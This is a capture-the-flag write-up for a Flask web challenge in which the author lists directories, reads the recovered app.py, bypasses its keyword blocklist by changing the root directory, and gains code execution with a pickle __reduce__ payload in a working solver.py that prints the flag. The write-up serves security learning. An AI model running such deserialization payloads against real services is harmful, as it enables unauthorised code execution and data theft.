

# My First AI Project [4 Solves]

## Description

> Explore my beginner-friendly web UI for testing an AI project!
>
> `13.229.222.125:33425`

No attachment.

A challenge server will be prepared for each player.

## Flag

wgmy{66417f2572bbb1420dc4359a1ca4acd2}

## TL;DR

- RCE by Python Object Deserialization with Pickle

## Solution

I cannot view the source code since no attachment.
I will interact with the provided Web application to see its functionality.


The Upload Dataset button was not usable from the UI.
With the Load Model button, I could confirm the file existence.

Clicking on the gear icon led to URL path `/settings`.




By removing one character from the default display /app/uploads/pickled/, files were revealed.
Directory listing is possible.
As there is a directory named `pickled`, I guessed that this challenge is to use Python Deserialization.

At a glance, the following files were found:

```text
/app/uploads/pickled/
8_10_2023.pkl

/app/uploads/
picked

/app
uploads
requirements.txt
app.py
static
templates

/
etc
mnt
root
...
app
.dockerenv
entrypoint.sh
flag.txt
```

The flag was located at /flag.txt.
It seems that the source code is in /app/app.py.


Pressing the Edit button with `/app` entered, the ROOT DIRECTORY was updated.


Returning to the URL path `/` again and entering app.py displayed that the file exists.
Since the ROOT DIRECTORY was changed to `/app`, it seems that `/app/app.py` is visible.
After submitting, I was able to retrieve `app.py`.

<details><summary>app.py</summary>

```python
from flask import Flask, render_template, request, url_for, jsonify
from werkzeug.utils import secure_filename
import pandas as pd
from datetime import datetime
import numpy as np
import os, pickle, base64, time, string, random

app = Flask(__name__)
app.secret_key = os.urandom(24)

ROOT_DIR = "/app/uploads/pickled/"


@app.route("/")
def index():
    return render_template("index.html")


@app.route("/check", methods=["GET"])
def check_dir():
    PATH_DATASET = request.args.get("filePath")
    if os.path.exists(ROOT_DIR + PATH_DATASET):
        return ["Exists"]
    else:
        return ["Not Exists"]


@app.route("/settings", methods=["GET", "POST"])
def settings():
    global ROOT_DIR
    if request.method == "POST":
        ROOT_DIR = request.values.get("rootDirectory")
        return jsonify({"message": "Root directory updated successfully"})

    return render_template("settings.html", root_dir=ROOT_DIR)


def list_subdirectories(input_value):
    try:
        subdirectories = os.listdir(input_value)
        return subdirectories
    except:
        return []


@app.route("/listsubDir", methods=["POST"])
def list_sub_dir():
    input_value = request.form.get("input")
    subdirectories = list_subdirectories(input_value)

    preview_html = "<pre>"
    for subdir in subdirectories:
        preview_html += f"{subdir}\n"
    preview_html += "</pre>"

    if len(subdirectories) != 0:
        return jsonify({"preview": preview_html})
    else:
        return jsonify(
            {"preview": f"cannot access '{input_value}': No such file or directory"}
        )


# Not ready yet
@app.route("/uploads", methods=["POST"])
def uploads():
    if request.method == "POST":
        f = request.files["dataset"]
        for file in os.scandir(os.path.join(app.root_path, "uploads")):
            if file.name.endswith(".csv"):
                os.unlink(file.path)
        if not f.filename.endswith(".csv"):
            return "Failed to upload, ensure the dataset ends with .csv"
        now = datetime.now()
        files = (
            "".join(random.choices(string.ascii_uppercase, k=5))
            + "_"
            + now.strftime("%d_%m_%Y")
        )
        filename = files + ".csv"
        pathfile = os.path.join(app.root_path, "uploads", secure_filename(filename))
        f.save(pathfile)
        time.sleep(1)  # Ensure file uploaded successfully
        uploaded_dataset = pd.read_csv(pathfile)
        try:
            X = uploaded_data[["X", "Y"]]
            Y = uploaded_data["Target"]

            model = LinearRegression()
            model.fit(X, Y)

            with open("uploads/pickled/" + files + ".pkl", "wb") as model_file:
                pickle.dump(model, model_file)
            return "dataset uploaded successfully"
        except:
            return "dataset failed to upload"


def waf(filenames):
    blocked = [
        "..",
        "...",
        "/proc/self",
        "etc",
        "flag",
        "flag.txt",
        "var",
        "usr",
        "bin",
    ]
    for items in blocked:
        if items in filenames:
            return True
    return False


@app.route("/loadModel", methods=["POST"])
def load_model():
    if request.method == "POST":
        filenames = ROOT_DIR + request.form["filePath"]
        if waf(filenames):
            return "Access Denied"
        try:
            with open(filenames, "rb") as model_file:
                loaded_model = np.load(model_file, allow_pickle=True)

            new_data = np.array([[4, 5], [5, 6]])
            predictions = loaded_model.predict(new_data)
            return "Data = %s Predictions for New Data: %s" % (
                str(new_data),
                str(predictions),
            )
        except:
            return (
                "Failed to load model. Ensure you give pickle data.<br><br>Preview:<br><br><pre>"
                + open(filenames, "rb").read().decode()
                + "</pre>"
            )


if __name__ == "__main__":
    app.run(debug=False, host="0.0.0.0")
```

</details>

Taking a look at this code in detail.

```python
@app.route("/uploads", methods=["POST"])
def uploads():
    if request.method == "POST":
        f = request.files["dataset"]
        for file in os.scandir(os.path.join(app.root_path, "uploads")):
            if file.name.endswith(".csv"):
                os.unlink(file.path)
        if not f.filename.endswith(".csv"):
            return "Failed to upload, ensure the dataset ends with .csv"
        now = datetime.now()
        files = (
            "".join(random.choices(string.ascii_uppercase, k=5))
            + "_"
            + now.strftime("%d_%m_%Y")
        )
        filename = files + ".csv"
        pathfile = os.path.join(app.root_path, "uploads", secure_filename(filename))
        f.save(pathfile)
```

[POST] /uploads: dataset parameter.
It has a file upload functinality and save its content to /app/XXXXX_dd_mm_YYYY.csv.
The file name is not controllable.

Also, it retrieve app.root_path from Flask's app and saves files underneath it.
Therefore, unless I can control app.root_path, I cannot control the saving directory.

```python
def waf(filenames):
    blocked = [
        "..",
        "...",
        "/proc/self",
        "etc",
        "flag",
        "flag.txt",
        "var",
        "usr",
        "bin",
    ]
    for items in blocked:
        if items in filenames:
            return True
    return False


@app.route("/loadModel", methods=["POST"])
def load_model():
    if request.method == "POST":
        filenames = ROOT_DIR + request.form["filePath"]
        if waf(filenames):
            return "Access Denied"
        try:
            with open(filenames, "rb") as model_file:
                loaded_model = np.load(model_file, allow_pickle=True)
```

[POST] /loadModel: filePath parameter.
It reads the file from the path `ROOT_DIR + filePath` and executes `np.load(model_file, allow_pickle=True)`.
Due to filtering in the `waf` function, reading files from the parent directory using `..` seems difficult.
If I can control `ROOT_DIR`, it appears possible to load the saved Pickled objects.

```python
@app.route("/settings", methods=["GET", "POST"])
def settings():
    global ROOT_DIR
    if request.method == "POST":
        ROOT_DIR = request.values.get("rootDirectory")
        return jsonify({"message": "Root directory updated successfully"})

    return render_template("settings.html", root_dir=ROOT_DIR)
```

[POST] /settings: `ROOT_DIR` is controllable.

From the above, I can RCE by following the steps:

1. Upload a pickled object and save it to /app/uploads/.
1. Retrieve the saved file name (*).
1. Set ROOT_DIR to /app.
1. loadModel with uploads/(*).

I can read /flag.txt, save it as a file in /tmp/, and then retrieve the flag through directory listing.

solver.py

```python
import os
import pickle
import requests


BASE_URL = "http://13.229.222.125:33429"
s = requests.Session()
# s.proxies = {"http": "http://127.0.0.1:8080"}


class RCE:
    def __reduce__(self):
        code = "touch /tmp/$(cat /flag.txt)"
        return os.system, (code,)


if __name__ == "__main__":
    # upload pickled file
    pickled = pickle.dumps(RCE())
    s.post(f"{BASE_URL}/uploads", files={"dataset": ("tmp.csv", pickled)})

    # get pickled csv filename
    res = s.post(f"{BASE_URL}/listsubDir", data={"input": "/app/uploads/"})
    pickled_csvfile = res.json()["preview"].split()[1]

    # set ROOT_DIR
    s.post(f"{BASE_URL}/settings", data={"rootDirectory": "/app/"})

    # load picked csv
    s.post(f"{BASE_URL}/loadModel", data={"filePath": f"uploads/{pickled_csvfile}"})

    # get flag
    res = s.post(f"{BASE_URL}/listsubDir", data={"input": "/tmp/"})
    print(res.json()["preview"])
```

Result:

```console
$ python3 solver.py
<pre>wgmy{66417f2572bbb1420dc4359a1ca4acd2}
tmp35r0vu6ncacert.pem
</pre>
```
